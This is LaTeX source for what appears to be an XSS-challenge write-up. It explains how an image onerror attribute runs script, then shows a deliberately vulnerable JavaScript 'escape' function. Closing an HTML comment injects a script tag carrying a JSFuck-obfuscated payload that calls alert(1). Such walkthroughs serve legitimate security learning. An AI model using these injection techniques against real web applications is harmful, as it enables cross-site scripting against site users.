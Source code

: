 \documentclass{article}
\begin{document}
So the \verb`onerror` attribute's value runs as JavaScript code since the image \verb`_.gif` was not able to load because it does not exist.

\section{DOM}

This time we have a function that takes a string which must contain a `\#' symbol and manipulates the DOM to create an element of whatever type was specified before the `\#', passing as a parameter whatever was after the `\#'.

\begin{verbatim}
	function escape(s) {
	    // Slightly too lazy to make two input fields.
	    // Pass in something like "TextNode#foo"
	    var m = s.split(/#/);

	    // Only slightly contrived at this point.
	    var a = document.createElement('div');
	    a.appendChild(
	        document['create'+m[0]].apply(document, m.slice(1)));
	    return a.innerHTML;
	}
\end{verbatim}

Attempting to create a text node containing script tags does not work, because the call to \verb`document.createTextNode` converts all less than and greater than symbols into their HTML codes. However, creating an HTML comment and then closing the comment within the string allows the rest of the string to be treated as HTML code. Therefore the following code successfully alerts `1'.

\begin{verbatim}
	Comment#><script>[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+
	!+[]]+(!![]+[])[+[]]][([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]
	+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[]
	)[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[
	]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+
	[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])
	[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+
	(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[
	])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[
	])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[]
	)[+!+[]]+(!![]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(!
	[]+[])[+!+[]]+(!![]+[])[+[]]]+[])[+!+[]+[!+[]+!+[]+!+[]]]+[+!+[]
	]+([+[]]+![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]
	]+(!![]+[])[+[]]])[!+[]+!+[]+[+[]]])()</script>
\end{verbatim}
\end{document}
